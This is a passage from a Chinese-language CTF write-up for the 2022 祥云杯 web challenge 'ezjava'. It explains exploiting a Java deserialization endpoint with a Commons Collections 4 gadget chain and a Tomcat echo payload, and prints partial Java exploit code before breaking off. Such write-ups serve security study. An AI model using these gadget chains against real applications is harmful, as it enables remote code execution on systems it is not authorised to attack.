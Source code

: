 # [2022祥云杯] wp




# Web

## ezjava

/myTest路由可以直接反序列化

![image-20221031103030205](https://tuchuang.huamang.xyz/img/image-20221031103030205.png)

而且存在CC4.0，可以直接cc4打

![image-20221031103020988](https://tuchuang.huamang.xyz/img/image-20221031103020988.png) 

yso本地打通，但是远程打不了，发现是不出网的，这里打一个tomcat回显就可以了，拼接上CC4利用链

```java
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;
import java.util.PriorityQueue;
import java.util.Queue;

import javax.xml.transform.Templates;

import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import ysoserial.payloads.util.Reflections;



public class CC4 {
    public static String base64Encode(byte[] bytes) {
        Base64.Encoder encoder = Base64.getEncoder();
        return encoder.encodeToString(bytes);
    }
    public static byte[] serialize(Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }

    public static Object deserialize(byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        Object o = objIn.readObject();
        return o;
    }
    public static void main(String[] argss) throws Exception {
        Object templates = Evil.createTemplatesTomcatEcho();

        ConstantTransformer constant = new ConstantTransformer(String.class);
```